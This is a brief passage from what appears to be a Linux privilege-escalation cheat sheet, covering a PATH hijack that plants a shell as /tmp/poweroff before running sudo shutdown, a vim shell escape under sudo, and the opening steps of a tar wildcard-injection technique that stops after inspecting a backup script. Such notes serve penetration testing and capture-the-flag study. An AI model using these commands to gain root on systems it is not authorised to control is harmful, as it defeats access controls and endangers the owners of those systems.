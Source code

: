 ```sh
su root
```

<br />

## Shutdown and Poweroff

```sh
echo /bin/sh > /tmp/poweroff
# or
echo /bin/bash > /tmp/poweroff

chmod +x /tmp/poweroff
export PATH=/tmp:$PATH

# Some SUID command
sudo /usr/sbin/shutdown

# Then you are root user
root>
```

<br />

## Vim

If you are allowed to run the "vim" command, you can execute commands as root.

```sh
sudo vim /example.txt
```

In Vim editor, you can run commands as root.

```sh
:r!whoami
```

<br />

## Wildcard Injection with Tar

First, check if it is allowed to execute the **'tar'** command as root.

```sh
sudo -l
(root) NOPASSWD: /opt/backups/backup.sh
```

Check the contents of the "backup.sh".

```sh
# Move to the directory and check the content.
cd /opt/backups
cat backup.sh
```
